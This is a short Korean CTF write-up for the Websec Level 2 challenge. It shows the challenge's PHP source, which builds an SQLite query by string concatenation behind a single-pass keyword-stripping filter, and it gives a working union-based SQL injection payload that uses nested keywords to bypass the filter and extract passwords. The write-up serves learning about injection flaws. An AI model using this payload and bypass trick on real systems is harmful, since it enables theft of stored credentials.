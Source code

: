 ```yaml
---
title : "Websec - Level 2"
excerpt : "Websec Level 2 - Easy"
toc : true
toc_sticky: true
categories:
  - Websec
tags:
  - sql injection
---
```


## 1. Source code

``` php
ini_set('display_errors', 'on');

class LevelTwo {
    public function doQuery($injection) {
        $pdo = new SQLite3('leveltwo.db', SQLITE3_OPEN_READONLY);

        $searchWords = implode (['union', 'order', 'select', 'from', 'group', 'by'], '|');  #단어들 사이에 | 을 해준다는 것
        $injection = preg_replace ('/' . $searchWords . '/i', '', $injection);

        $query = 'SELECT id,username FROM users WHERE id=' . $injection . ' LIMIT 1';
        $getUsers = $pdo->query ($query);
        $users = $getUsers->fetchArray (SQLITE3_ASSOC);

        if ($users) {
            return $users;
        }

        return false;
    }
}

if (isset ($_POST['submit']) && isset ($_POST['user_id'])) {
    $lt = new LevelTwo ();
    $userDetails = $lt->doQuery ($_POST['user_id']);
}
```
$userDetails 값이 존재하면 id,username을 출력해준다.  

## 2. Vulnerability

level1과 다른점은 필터링을 한다는 점이다. 근데 필터링하는 문자들을 공백으로 바꿔준다는 점에서 취약점이 발생한다.  
'uniunionon' 이런식으로 써준다면 필터링을 우회할 수 있다.


## 3. Solution

1 uniunionon selselectect 1,password frfromom users -- 라고 입력을 해주면 쿼리에는 ``` SELECT id,username FROM users WHERE id=1 union select 1,password from users -- LIMIT 1 ``` 로 들어가서 플래그를 얻는다. 
